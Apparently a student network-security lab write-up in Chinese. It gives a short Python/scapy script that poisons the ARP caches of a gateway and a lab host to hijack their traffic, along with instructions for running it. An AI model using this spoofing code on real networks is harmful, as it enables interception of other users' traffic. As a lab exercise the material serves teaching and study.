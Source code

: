 ### 实验四（可选）：基于 `scapy` 编写 `ARP` 投毒劫持工具
1. `python`编写基于`scapy`的代码[arp.py](./arp.py)
    ```python
    import scapy
    def get_mac(IP):
    	pkt = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(pdst=IP)
    	ans, unans = srp(pkt, timeout=2, inter=0.1)
    	for snd, rcv in ans:
    		return rcv.sprintf("%Ether.src%")

    def trick(gm,vm):
    	send(ARP(op="is-at", pdst=vm, psrc=gm, hwdst=get_mac(vm)))
    	send(ARP(op="is-at", pdst=gm, psrc=vm, hwdst=get_mac(gm)))
	
    if __name__ == "__main__":
	    gm="172.16.111.1"
	    vm="172.16.111.126"
	    trick(gm,vm)
    ```
2. `scapy`运行代码

    ![代码成功](./img/arp-trick.png)

3. `scapy`另一种方式运行代码`sudo python3 arp.py`
